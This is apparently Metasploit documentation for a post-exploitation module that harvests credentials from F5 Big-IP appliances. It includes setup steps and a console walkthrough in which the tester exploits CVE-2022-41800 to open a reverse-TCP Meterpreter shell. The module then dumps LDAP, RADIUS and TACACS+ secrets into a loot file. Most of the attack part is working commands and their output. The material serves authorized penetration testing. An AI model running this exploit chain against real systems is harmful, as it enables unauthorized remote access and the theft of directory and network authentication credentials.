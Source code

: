 ## Vulnerable Application

The application is F5 Big-IP, and I don't think the versions matters but I
tested on version 17.0.0.1. It can be downloaded as a VMWare image for free
(you have to create an account) from https://downloads.f5.com. You can register
for a free 30-day trial if you like, but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get any session somehow (`exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800` works well on 17.0.0.1 and earlier, or just use `msfvenom`)
4. Do: `modules/post/linux/gather/f5_passwords`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get the info

## Options

n/a

## Scenarios

### F5 Big-IP 17.0.0.1 with a root session

First, get a non-root session however you can. I used the rpmspec vuln:

```
msf6 > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword mybigtestpassword
HttpPassword => iagotestbigip
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/708677fa-5b30-43e6-9ce3-d84046e9f6e9.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/yE15kZeAwp-1.6.1-7.4.4.noarch.rpm
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:36124) at 2022-11-14 16:12:04 -0800

meterpreter > bg
```

Then just use the module, set the SESSION, and run it:

```
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > use modules/post/linux/gather/f5_passwords.rb
msf6 post(linux/gather/f5_passwords) > set VERBOSE true
VERBOSE => true
msf6 post(linux/gather/f5_passwords) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/f5_passwords) > run

[*] Trying to fetch LDAP / Active Directory configuration
[*] Trying to fetch Radius configuration
[*] Trying to fetch TACACS+ configuration
[*] Trying to fetch SMTP configuration
[*] No SMTP password found
[+] LDAP: admin / myadpassword (server(s): ad.example.org)
[+] Radius secret: secret2 (server: myradiustest2.example.org)
[+] Radius secret: myradiussecret (server: myradiustest.example.org)
[+] TACACS+ secret: mytacacspassword (server(s): mytacacsserver.example.org, mytacacsserver2.example.org)
[+] Passwords stored in /home/ron/.msf4/loot/20221115101339_default_10.0.0.162_f5.service.passw_358656.txt
[*] Post module execution completed
[...]
```
